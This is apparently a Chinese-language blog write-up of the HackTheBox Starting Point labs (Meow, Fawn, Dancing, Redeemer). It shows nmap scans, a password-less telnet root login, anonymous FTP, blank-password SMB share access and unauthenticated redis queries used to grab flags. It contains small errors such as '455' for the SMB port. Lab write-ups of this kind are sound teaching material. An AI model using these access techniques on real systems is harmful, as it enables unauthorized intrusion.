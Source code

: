```yaml
---
title: HackTheBox初探
date: 2024-01-19 18:40:13
tags: 渗透测试
mathjax: true
---
```


# HackTheBox初探

## 开始使用

注册得科学上网，亲测还得用欧洲的，亚洲、中亚、美国的不行...

注册完就无所谓了。

注册后选择Starting Point，OpenVPN方式，下载vpn配置文件，然后连接：

```bash
openvpn xxx.ovpn
```

直到Starting Point变绿，ifconfig发现多出来一块虚拟网卡tun0。

## Meow

```bash
nmap -sV 10.129.42.107
```

23端口有telnet服务，尝试连接：

```bash
telnet 10.129.42.107
```

尝试一些用户名，例如admin、administrator、root等，发现root账户可免密登录。

拿flag。

## Fawn

```bash
nmap -sV 10.129.1.14
```

用了240秒...这速度不敢恭维。

21端口有ftp服务，尝试匿名anonymous登录发现成功，尝试下载：

```
ls
get flag.txt
bye
```

## Dancing

```bash
nmap -sV 10.129.4.186
```

455端口显示microsoft-ds?意味着存在Samba服务，尝试连接并列出可用共享标志/开关：

```bash
smbclient -U root -L 10.129.4.186
```

密码留空，成功登录，\$IPC忽略，其他三个进行访问：

```bash
smbclient -U root \\\\10.129.4.186\\ADMIN$
smbclient -U root \\\\10.129.4.186\\C$
smbclient -U root \\\\10.129.4.186\\WorkShares
```

前两个使用空密码都拒绝访问，最后一个成功。

进入smb shell，下载flag.txt：

```
ls
cd James.P
get flat.txt
exit
```

## Redeemer

全端口扫描：

```bash
nmap -p- --min-rate=1000 -sV 10.129.119.18
```

6379有redis服务，尝试连接：

```bash
redis-cli -h 10.129.119.18
```

使用info命令，看到最后Keyspace部分，含有数据库db0，尝试找flag：

```
select 0
keys *
get flag
exit
```
